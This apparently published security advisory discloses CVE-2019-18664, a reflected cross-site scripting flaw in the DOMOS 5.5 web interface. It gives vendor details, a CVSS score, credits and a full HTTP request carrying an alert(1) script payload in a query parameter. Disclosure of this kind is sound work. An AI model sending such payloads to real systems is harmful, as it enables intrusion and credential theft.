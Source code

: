 ```yaml
---
layout: post
title: "CVE-2019-18664: Reflected XSS in DOMOS"
date:   2019-11-01 15:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Overview

- Vendor: SECUDOS GmbH
- Product: DOMOS
- Version: 5.5
- Vulnerability: Relected Cross-Site Scripting
- Fixed Version: 5.6

# Background

DOMOS is an own and hardened operating system of SCUDOS GmbH. The operating system is used as a platform by several applications. It also offers a web interface for the administration of operating system settings.

# Issue Description

While analyzing the implementation of the DOMOS web interface, one reflected Cross-Site-Scripting vulnerability has been identified, which can be exploited in order to read password hashes from the file system. This vulnerability can be exploited by authenticated attackers with access to the web interface.

Please consider the following complete HTTP-Request:

__HTTP-Request__

~~~ http
GET /page/sl_logdl?dcfct=DCMlog.download_log&dbkey%3Asyslog.rlog=%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1

Host: 10.10.10.1:10000
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
  (KHTML, like Gecko) Falkon/3.0.1 Chrome/69.0.3497.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,
image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.8
Cookie: L=german; S=WdylJWgYQfqXVu1VkvBP9pwxBdh91bhDWB87eB5h;
session_id=09bced960d7c7bb0cc15d28c7128b5bc86e7c611
~~~

# CVE

[CVE-2019-18664](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18664)

# CVSSv3 Base Score

CVSS Base Score: __3.5__

CVSS:3.0/AV:N/AC:H/PR:L/UI:R/S:U/C:L/I:N/A:N

# Credit

Pascal Keul of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)
Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)
Torsten Löbner of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
